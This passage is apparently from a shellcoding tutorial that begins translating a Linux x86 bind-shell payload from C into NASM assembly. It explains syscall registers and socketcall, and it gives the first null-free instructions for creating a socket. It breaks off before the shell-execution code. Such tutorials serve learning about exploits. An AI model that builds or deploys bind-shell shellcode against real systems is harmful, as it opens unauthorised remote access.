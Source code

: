 ## Translating to Assembly

The steps are the same as above:
1. [nasm - Creating the socket](#1-creating-the-socket)
2. [nasm - Bind the socket to an IP and port](#2-bind-the-socket-to-an-ip-and-port)
3. [nasm - Set the socket to listen](#3-set-the-socket-to-listen)
4. [nasm - Accept a connection](#4-accept-a-connection)
5. [nasm - Redirect output](#5-redirect-output)
6. [nasm - Execute a shell](#6-execute-a-shell)
7. [nasm - Putting it all together](#7-putting-it-all-together)

A quick reminder of arguments and calls for assembly:
- EAX is used for the syscall number. As with a lot of calls, EAX will store the return value.
  * Syscall numbers can be found in /usr/include/i386-linux-gnu/asm/unistd_32.h
- EBX is used for the first argument to be passed
- ECX is used for the second argument to be passed
- EDX is used for the third argument to be passed
- ESI is used for the fourth argument to be passed
- EDI is used for the fifth argument to be passed
- Any structs can be made by using the stack and pointing to it's address

### 1 Creating the socket

Sockets are handled through socketcall()\
http://man7.org/linux/man-pages/man2/socketcall.2.html
```c
int socketcall(int call, unsigned long *args);
```
The call ids can be found at:
```c 
cat /usr/include/linux/net.h | grep SYS_

#define SYS_SOCKET	 1		/* sys_socket(2)		*/
#define SYS_BIND	   2		/* sys_bind(2)			*/
#define SYS_CONNECT	3		/* sys_connect(2)		*/
#define SYS_LISTEN	 4		/* sys_listen(2)		*/
#define SYS_ACCEPT	 5		/* sys_accept(2)		*/
``` 
Looking at our C code, we need to call socket(2, 1, 0);\
This will translate to:\
    EAX - 0x66 for socketcall\
    EBX - 1 fo socket\
    ECX - address on stack with args 2, 1 0\
```asm
; clear registers while avoiding nulls
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

; 0x66 for socketcall
mov al, 0x66
;0x1 for socket
mov bl, 0x1
```
Setting up ECX - our *args parameter - we can use the stack to push the values then make ecx the stack pointer so that we have the address for the args.  Note that when using the stack for args in this way, we have to push them in the reverse order due to the way the stack works (FILO).
```asm
; ecx = 0
push ecx
; ebx = 1
push ebx
push 0x2

```